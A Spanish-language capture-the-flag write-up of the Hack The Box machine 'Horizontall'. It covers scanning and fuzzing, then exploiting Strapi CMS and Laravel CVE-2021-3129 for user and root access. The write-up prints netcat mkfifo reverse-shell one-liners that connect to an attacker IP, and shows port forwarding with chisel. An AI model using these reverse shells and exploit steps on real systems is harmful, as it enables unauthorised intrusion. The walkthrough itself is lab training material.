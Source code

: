 #  HORIZONTAL MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/1.png)


## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```bash
nmap -p- --open -T5 - v -n 10.10.11.105 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/2.png)

Vamos a realizar una enumeracion de los servicios en los puertos:

```bash
nmap -p22,80 -sV -sC 10.10.11.105 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/3.png)

## EXPLOTACION

Como tiene el puerto 80 abierto revisemos la pagina:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/4.png)

no encontramos nada interesante, veamos si podemos encontrar rutas potenciales:

```bash
wfuzz -c -t 100 --hw=33 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u "http://horizontall.htb/FUZZ"
```

solo encontramos estas y todas muestran **forbidden**:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/5.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/6.png)

intentamos buscar subdominios pero tampoco tuvimos exito:

```bash
wfuzz -c -t 100 --hw=43 --hc=400,404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -H "Host: FUZZ.horizontall.htb/" -u "http://horizontall.htb/"
```

no nos reporto nada, basicamente estamos jodidos.

En estas ocasiones puede ser que exita una ruta o subdominio pero no se encuentre en el diccionario, asi que es necesario inspeccionar el codigo fuente, porque puede que llamen a una URL interesante:

```bash
cul -s -k "http://horizontall.htb/" | grep http:
```

no da nada, intentemos entonces que archivos JS, ya que la ruta **/js** existe podriamos ver algun script interesante:

```bash
cul -s -k "http://horizontall.htb/" | grep js
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/7.png)

el que mas llama la atencion es el ultimo, veamos si podemos verlo desde el navegador:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/8.png)

si podemos, pero vemos mucha informacion asi que filtremos por lo que nos interesa (URLs):

```bash
curl -s -k "http://horizontall.htb/js/app.c68eb462.js" | grep http:
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/9.png)

al filtrarlo vemos una ruta interesante: **http://api-prod.horizontall.htb/reviews**, vemos un nuevo subdominio, veamos la pagina:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/10.png)

vemos unas opiniones en formato json, si le quitamos el review vemos esto:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/11.png)

pues nada muy util, tocara enumerar un poco este nuevo subdominio. Busquemos rutas potenciales:

```bash
wfuzz -c -t 100 --hw=33 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u "http://api-prod.horizontall.htb/FUZZ"
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/12.png)

tenemos otros directorios veamos el directorio de **admin**:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/13.png)

vemosun inicio de sesion, **strapi**, buscando en google di que es un CMS, podriamos buscar si hay vulnerabilidades para este CMS pero seria bueno encontrar la version especifica, lo podemos hacer de dos formas:

podemos ver la ruta **http://api-prod.horizontall.htb/admin/init** (investigado en google)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/14.png)

o su revisamos el codigo fuente daremos con un script llamado **/admin/main.da91597e.chunk.js**, si lo vemos desde el navegador y filtramos por **strapi** llegamos a esto:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/15.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/16.png)

ya que tenemos la version, busque una vulnerabilidad y di con esto:

[exploit](https://www.exploit-db.com/exploits/50239)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/17.png)

es un script en python3 que solo debemos proporcionarle la URL:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/18.png)

lo ejecutamos:

```bash
python3 strapi.py http://api-prod.horizontall.htb/
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/19.png)

estamos dentro pero te dice que es una bind shell y lo que ejecutemos se ejecutara pero no mostrara por pantalla el resultado, asi que tenemos que enviarnos una reverse shell de alguna forma, como no podemos ver que tiene la maquina intente varias formas de enviarme una reverse shell y esta funciono:

[MonkeyPentester reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.115 4545 >/tmp/f
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/20.png)

hagamos un tratamiento de la TTY:

```bash
script /dev/null -c bash
Ctrl Z
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
```

y podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/21.png)

## ELEVACION DE PRIVILEGIOS

Realizamos la enumeracion basica del sistema pero no vio mucho, pasemosnos el linPEAS y veamos que hay:

[LinPEAS](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)

```bash
cat linpeas.sh | sh
```

de toda la salida en pantalla lo que llama la atencion es lo siguiente:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/22.png)

El puerto 8000 esta abierto localmente y no sabemos que corre ahi, lo hubieramos podido ver tambien con:

```bash
netstat -antp
```

necesitaremos hacer port forwarding para ver que hay en ese puerto, yo usare chisel para ello:

[chisel](https://github.com/jpillora/chisel)

kali:

```bash
./chisel server -p 4444 --reverse
```

victima:

```bash
./chisel client 10.10.14.115:4444 R:3333:127.0.0.1:8000
```

ahora podemos enumerar el puerto 3333 de nuestro equipo para ver que es:

```bash
nmap -p3333 -sC -sV 127.0.0.1
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/23.png)

parece una pagina web, veamos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/24.png)

Es una pagina hecha con laravel y ahi vemos una version: **Laravel v8 (PHP v7.4.18)**.

veamos si hay vulnerabilidades para esa version.

Doy con este [exploit](https://github.com/nth347/CVE-2021-3129_exploit).

probemoslo, ahi dice como usar:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/25.png)

ejecutamos y tenenmos RCE:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/26.png)

es un proceso que lo esta ejecutando root. spwanemos una shell con netcat:

```bash
./exploit.py http://localhost:3333 Monolog/RCE1 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.115 4646 >/tmp/f"
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/27.png)

ahora podemos ver la otra flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/HORIZONTALL/images/28.png)
